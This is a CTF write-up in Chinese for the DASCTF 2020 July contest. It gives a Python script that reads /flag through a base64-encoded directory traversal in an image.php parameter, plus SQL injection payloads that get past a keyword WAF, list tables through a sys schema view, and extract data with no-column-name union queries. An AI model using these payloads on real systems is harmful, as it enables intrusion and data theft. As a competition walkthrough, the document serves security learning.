 ```yaml
---
stitle: DASCTF2020.7月赛
date: 2020-07-25
image: 
description: 
categories: 
- ctf_writeup
tags:
- 无列名
---
```

### Ezfileinclude

考点：Unix时间戳、文件包含、目录穿越

开局一张图，发现源码 `image.php?t=1595664783&f=Z3F5LmpwZw==`

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120181135.png)

访问之，回显：`What's your time?` 仔细看t参数是一个unix时间戳，然后f是base64后的文件名；

直接写脚本，目录穿越读取/flag

```python
import time
import requests
import base64
 
t = int(time.time())
f = 'gqy.jpg?../../../../../../flag'
f = base64.b64encode(f.encode()).decode()
print(t, f)
 
host = 'http://183.129.189.60:10009/image.php?t={}&f={}'.format(t, f)
head = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0)',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8'
}
 
r = requests.get(url=host, headers=head)
print(r.text)
 
```

### SQLi

考点：无列名注入，sys.schema_tables_with_full_table_scans

访问要求传入id参数：

```
http://183.129.189.60:10004/?id=1;
```

 

返回waf：

```
return preg_match("/;|benchmark|\^|if|[\s]|in|case|when|sleep|auto|desc|stat|\||lock|or|and|&|like|-|`/i", $id); 
```

 

stat意味着过滤了sys.schema_table_statistics_with_buffer,sys.x$schema_table_statistics_with_buffer,mysql.innodb_table_stats

or意味着过滤了information_schema

由waf想到了union注入：

```
?id=0%27union/**/select/**/1,2,3%23
Array ( [0] => 1 [id] => 1 [1] => 2 [username] => 2 [2] => 3 [password] => 3 )
```

 

可以看到库名：

```
?id=0%27union/**/select/**/1,database(),3%23
sqlidb
```

 

上述bypass infomation_schema的方法都被过滤了，不过leon师傅在一次开发当中发现了另一个库：`sys.schema_tables_with_full_table_scans`

```
?id=0'/**/union/**/select/**/1,group_concat(object_name),3/**/from/**/sys.schema_tables_with_full_table_scans%23
#users,flllaaaggg,sys_config
```

接下来是无列名注入：

```
?id=0'/**/union/**/select/**/1,(select/**/a.2/**/from/**/(select/**/1,2/**/union/**/select/**/*/**/from/**/flllaaaggg)a/**/limit/**/1,1),3%23
flag{60325f20416b40b11b6049734bad11cf}
```